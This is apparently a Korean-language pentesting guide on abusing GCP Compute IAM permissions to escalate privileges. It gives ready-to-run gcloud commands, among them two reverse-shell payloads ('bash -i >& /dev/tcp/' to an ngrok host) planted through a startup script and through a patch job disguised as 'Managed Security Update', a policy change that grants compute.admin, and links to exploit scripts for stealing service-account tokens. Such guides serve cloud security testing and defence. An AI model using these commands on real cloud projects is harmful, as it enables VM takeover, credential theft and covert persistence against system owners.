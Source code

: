 # GCP - Compute Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Compute

GCP에서 Compute 및 VPC(네트워크)에 대한 자세한 정보는 다음을 확인하세요:

{{#ref}}
../../gcp-services/gcp-compute-instances-enum/
{{#endref}}

> [!CAUTION]
> 인스턴스의 메타데이터를 수정해야 하는 모든 권한 상승 공격(예: 새로운 사용자 및 SSH 키 추가)을 수행하려면 **인스턴스에 연결된 SA에 대해 `actAs` 권한이 필요합니다**, SA가 이미 연결되어 있더라도!

### `compute.projects.setCommonInstanceMetadata`

이 권한을 사용하면 **인스턴스**의 **메타데이터** 정보를 **수정**하고 **사용자의 인증된 키**를 변경하거나 **sudo** 권한이 있는 **새 사용자**를 **생성**할 수 있습니다. 따라서 SSH를 통해 모든 VM 인스턴스에 접속하고 인스턴스가 실행 중인 GCP 서비스 계정을 탈취할 수 있습니다.\
제한 사항:

- 기본적으로 VM 인스턴스에서 실행되는 GCP 서비스 계정은 **매우 제한된 범위**를 가집니다.
- 로그인하려면 **SSH** 서버에 **연락할 수 있어야** 합니다.

이 권한을 악용하는 방법에 대한 자세한 정보는 다음을 확인하세요:

{{#ref}}
gcp-add-custom-ssh-metadata.md
{{#endref}}

새로운 시작 스크립트를 추가하고 인스턴스를 재부팅하여 이 공격을 수행할 수도 있습니다:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

이 권한은 **이전 권한과 동일한 권한**을 특정 인스턴스에 부여하며 전체 프로젝트에 대한 것이 아닙니다. **이전 섹션과 동일한 취약점과 제한 사항이 적용됩니다**.

### `compute.instances.setIamPolicy`

이러한 종류의 권한은 **이전 권한으로 역할을 부여할 수 있게 해주며** 이를 악용하여 권한을 상승시킬 수 있습니다. 다음은 서비스 계정에 `roles/compute.admin`을 추가하는 예입니다:
```bash
export SERVER_SERVICE_ACCOUNT=YOUR_SA
export INSTANCE=YOUR_INSTANCE
export ZONE=YOUR_INSTANCE_ZONE

cat <<EOF > policy.json
bindings:
- members:
- serviceAccount:$SERVER_SERVICE_ACCOUNT
role: roles/compute.admin
version: 1
EOF

gcloud compute instances set-iam-policy $INSTANCE policy.json --zone=$ZONE
```
### **`compute.instances.osLogin`**

인스턴스에서 **OSLogin이 활성화되어 있는 경우**, 이 권한으로 **`gcloud compute ssh [INSTANCE]`**를 실행하여 인스턴스에 연결할 수 있습니다. 인스턴스 내에서 **루트 권한**은 없습니다.

> [!TIP]
> 이 권한으로 VM 인스턴스에 성공적으로 로그인하려면 VM에 연결된 SA에 대해 `iam.serviceAccounts.actAs` 권한이 필요합니다.

### **`compute.instances.osAdminLogin`**

인스턴스에서 **OSLogin이 활성화되어 있는 경우**, 이 권한으로 **`gcloud compute ssh [INSTANCE]`**를 실행하여 인스턴스에 연결할 수 있습니다. 인스턴스 내에서 **루트 권한**이 있습니다.

> [!TIP]
> 이 권한으로 VM 인스턴스에 성공적으로 로그인하려면 VM에 연결된 SA에 대해 `iam.serviceAccounts.actAs` 권한이 필요합니다.

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

**서비스 계정이 할당된 가상 머신을 생성하고 메타데이터에 접근하여 서비스 계정의 토큰을 훔치는** 것이 가능합니다. 

이 방법에 대한 익스플로잇 스크립트는 [여기](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py)에서 찾을 수 있습니다.

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

**`osconfig.patchDeployments.create`** 또는 **`osconfig.patchJobs.exec`** 권한이 있는 경우 [**패치 작업 또는 배포**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching)를 생성할 수 있습니다. 이를 통해 환경 내에서 수평 이동을 하고 프로젝트 내의 모든 컴퓨트 인스턴스에서 코드 실행을 얻을 수 있습니다.

현재로서는 인스턴스에 연결된 SA에 대해 **`actAs` 권한이 필요하지 않습니다.**

수동으로 이를 악용하려면 [**패치 작업**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_job.json) **또는** [**배포**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_deployment.json)**을 생성해야 합니다.**\
패치 작업을 실행하려면:
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
패치 배포를 배포하려면:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
도구 [patchy](https://github.com/rek7/patchy)는 과거에 이 잘못된 구성의 취약점을 이용하는 데 사용될 수 있었지만 (현재는 작동하지 않음).

**공격자는 이를 지속성을 위해 악용할 수도 있습니다.**

### `compute.machineImages.setIamPolicy`

**컴퓨트 이미지에 대한 추가 권한을 부여하세요.**

### `compute.snapshots.setIamPolicy`

**디스크 스냅샷에 대한 추가 권한을 부여하세요.**

### `compute.disks.setIamPolicy`

**디스크에 대한 추가 권한을 부여하세요.**

### 접근 범위 우회

이 링크를 따라가면 [**접근 범위를 우회하기 위한 아이디어**](../)를 찾을 수 있습니다.

### GCP 컴퓨트 인스턴스에서의 로컬 권한 상승

{{#ref}}
../gcp-local-privilege-escalation-ssh-pivoting.md
{{#endref}}

## 참고자료

- [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{{#include ../../../../banners/hacktricks-training.md}}
